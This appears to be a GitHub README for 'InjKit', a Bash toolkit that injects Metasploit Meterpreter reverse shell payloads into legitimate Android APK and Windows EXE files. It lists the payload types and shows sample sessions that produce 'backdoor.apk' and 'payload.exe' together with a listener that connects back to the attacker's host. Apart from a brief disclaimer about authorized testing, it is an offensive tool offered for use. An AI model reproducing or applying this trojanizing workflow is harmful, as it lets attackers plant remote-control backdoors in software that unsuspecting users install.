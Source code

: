 # InjKit

Payload Injector Toolkit (APK & EXE)

InjKit is a lightweight Bash-based toolkit for injecting Metasploit Meterpreter reverse shell payloads into clean Android APK files or Windows EXE binaries using msfvenom.

It consists of two interactive scripts:

apk_injector.sh → injects payloads into APK files (Android).

exe_injector.sh → injects payloads into EXE files (Windows).


Both scripts:

Validate LHOST and LPORT.

Let you choose payload type (TCP, HTTP, HTTPS).

Verify file paths before injection.

Automatically generate a Metasploit listener script (listener.r).



---

📁 Included Scripts

1. apk_injector.sh — Android APK Injector

Injects a reverse shell payload into a clean APK.

🔧 Features:

Interactive prompts for LHOST, LPORT, payload selection.

Validates APK path and output filename.

Supports payloads:

android/meterpreter/reverse_tcp

android/meterpreter/reverse_http

android/meterpreter/reverse_https


Generates new APK with embedded payload.

Creates listener.r for Metasploit.



---

2. exe_injector.sh — Windows EXE Injector

Injects a reverse shell payload into a clean EXE.

🔧 Features:

Interactive prompts for LHOST, LPORT, payload type.

Detects EXE architecture automatically (x86 or x64).

Supports payloads:

windows/meterpreter/reverse_{tcp,http,https}

windows/x64/meterpreter/reverse_{tcp,http,https}


Validates EXE path and output filename.

Generates new EXE with embedded payload.

Creates listener.r for Metasploit.



---

🚀 Example Usage

APK Injector

chmod +x apk_injector.sh
./apk_injector.sh

🖥️ Sample Interaction:

===============================
        APK Payload Injector
===============================

🌐 Enter LHOST: 192.168.1.100
🎯 Enter LPORT: 4444
Select Payload Type:
1) android/meterpreter/reverse_tcp
2) android/meterpreter/reverse_http
3) android/meterpreter/reverse_https
Enter the path to a clean APK file: /root/app.apk
Enter the output file name (e.g., evil.apk): backdoor.apk

[*] Injecting payload into /root/app.apk...
[+] Payload injected successfully! Saved as: backdoor.apk
[+] Metasploit listener script saved as: listener.r
[*] You can run it using: msfconsole -r listener.r


---

EXE Injector

chmod +x exe_injector.sh
./exe_injector.sh

🖥️ Sample Interaction:

===============================
      EXE Payload Injector
===============================

🌐 Enter LHOST: 192.168.1.100
🎯 Enter LPORT: 5555
Enter the path to a clean EXE file (e.g., notepad.exe): /root/notepad.exe

=========================================
✅ Architecture detected: x64
=========================================

Select Payload Type (x64):
1) windows/x64/meterpreter/reverse_tcp
2) windows/x64/meterpreter/reverse_http
3) windows/x64/meterpreter/reverse_https
Enter choice [1-3]: 1

Enter the output file name (e.g., evil.exe): payload.exe

[*] Injecting payload (windows/x64/meterpreter/reverse_tcp) into /root/notepad.exe...
[+] Payload injected successfully! Saved as: payload.exe
[+] Metasploit listener script saved as: listener.r
[*] You can run it using: msfconsole -r listener.r


---

🎯 Listener Script (listener.r)

Each injection generates a listener.r file with the required commands for Metasploit:

msfconsole -r listener.r

This automatically starts the handler for the chosen payload.


---

⚠️ Notes

Requires Metasploit Framework installed (msfvenom, msfconsole).

Works on Linux systems (tested on Kali).

For educational and authorized penetration testing only.



---

💬 Feedback

Contributions, improvements, or suggestions are welcome.
Made for learning, red teaming, and ethical hacking.


---
